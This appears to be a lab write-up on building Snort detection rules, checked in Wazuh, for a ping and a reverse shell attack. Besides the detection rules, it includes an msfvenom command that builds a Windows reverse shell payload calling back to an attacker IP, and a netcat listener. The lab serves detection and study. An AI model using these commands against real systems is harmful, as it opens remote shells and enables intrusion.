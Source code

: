 ##

### Ping attack
rule Snort:
```bash
alert icmp any any -> any any (msg:"ICMP Ping Detected"; itype:8; dsize:0; sid:1000001; rev:1;)
```

check log in Wazuh-Server:
![alt text](image-2.png)

### Reverse shell attack

In Snort, we will create a rule to detect reverse shell attacks. The rule will look for specific patterns in the traffic that indicate a reverse shell connection.
```bash
alert tcp any any -> any any (msg:"Netcat reverse shell"; content:"/bin/sh"; sid:100001; rev:1;)

alert tcp any any -> any any (msg:"Possible Reverse Shell - Windows CMD Banner"; content:"Microsoft Windows"; sid:1001001; rev:1;)
```

To simulate a reverse shell attack, we will use `msfvenom` to create a payload that will connect back to the Attacker machine. The steps are as follows:

1. Create a reverse shell payload using msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.81.1.128 LPORT=4444 -f exe -o reverse_shell.exe
```
2. Transfer the payload to the Victim machine using a file transfer method (e.g., SCP, FTP, or a web server).

3. In attacker machine, start a listener 
```bash
nc -lvnp 4444
```
